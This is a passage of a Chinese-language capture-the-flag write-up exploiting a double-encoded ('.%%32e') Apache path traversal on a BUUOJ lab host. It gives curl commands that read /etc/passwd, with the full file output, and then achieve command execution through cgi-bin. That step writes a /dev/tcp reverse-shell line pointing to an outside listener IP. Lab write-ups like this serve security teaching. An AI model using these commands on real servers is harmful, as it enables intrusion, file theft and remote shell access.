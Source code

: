 `2` 的 URLEncode 结果为 `%32`，故我们可以用 `.%%32e` 或者 `%%32e%%32e` 进行路径穿越。

#### 路径穿越测试

访问 `http://node4.buuoj.cn:27256/icons/a.png` 得到图片，可知存在 `icons` 目录。

执行（`.%%32e/` 写多点以确保到达根目录）：

```bash
curl http://node4.buuoj.cn:27256/icons/.%%32e/.%%32e/.%%32e/.%%32e/etc/passwd
```

返回

```plain
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

测试成功！

#### RCE 测试

获取根目录下的 `flag` 文件失败，我们无从知道 flag 放到哪，文件名是什么，是否需要提权等。因此拿到 shell 是万全之策。

访问 `http://node4.buuoj.cn:27256/cgi-bin/printenv` 没有返回 `404`，可知存在 `cgi-bin` 目录，因此可实现远程代码执行获取 shell.

执行：

```bash
curl -v --data "echo;echo 'bash -i &> /dev/tcp/47.97.152.130/54188 0>&1'>> /tmp/shell.sh" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```

其中 `47.97.152.130` 和 `54188` 分别为主控机 IP 和监听端口。

查看是否注入成功

```bash
curl --data "echo;ls /tmp" http://node4.buuoj.cn:27256/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/bin/sh
```
